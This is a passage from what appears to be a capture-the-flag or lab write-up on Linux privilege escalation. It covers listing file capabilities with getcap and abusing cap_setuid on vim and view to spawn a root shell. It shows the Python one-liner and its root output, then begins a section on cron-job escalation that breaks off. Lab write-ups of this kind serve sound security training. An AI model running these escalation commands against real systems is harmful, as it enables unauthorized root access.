 For example:
- `CAP_NET_RAW`: Allows use of raw sockets.
- `CAP_SYS_ADMIN`: Very powerful, close to full root access.
- `CAP_SETUID`: Allows changing user IDs.


In this task, you aren't required to run the exploit in order to get the flag, but for learning purpose, I will test exploiting binaries with set capabilities.

Use `getcap` tool to list enabled capabilities. 

```bash
$ getcap -r / 2>/dev/null
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/home/karen/vim = cap_setuid+ep
/home/ubuntu/view = cap_setuid+ep
$ id
uid=1001(karen) gid=1001(karen) groups=1001(karen)
```

Both vim and view have the capability `cap_setuid+ep`, which means that when you run the binary, it can change its UID. 

I will test Vim and view capabilities. Change to the binary location directory and run the exploit.

[Vim Capability abuse](https://gtfobins.github.io/gtfobins/vim/#capabilities): First, we need to identify Python version running on the target machine. *Prepend `:py3` for Python 3.*
```bash
$ python3 --version
Python 3.8.5
$ ./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
Erase is control-H (^H).
# id
uid=0(root) gid=1001(karen) groups=1001(karen)
```
The command used Vim to run Python code to escalate privileges with setuid(0) -> root, then launch a root shell with `os.execl`


[view Capability abuse](https://gtfobins.github.io/gtfobins/view/#capabilities)

```bash
$ ./view -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
Erase is control-H (^H).
# id
uid=0(root) gid=1001(karen) groups=1001(karen)
# 
```

## Privilege Escalation: Cron Jobs

Cron is a time-based job scheduler in Unix/Linux. It executes scripts or commands automatically at scheduled intervals (every minute, hourly, daily, etc.). We can exploit badly configured cron jobs to get root privileges. Look for:
- Scripts or binaries in cron jobs owned by the root user are writable.
- If the cron file is writable.
- If cron.d directory is writable.
```bash
$ cat /etc/crontab
# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
```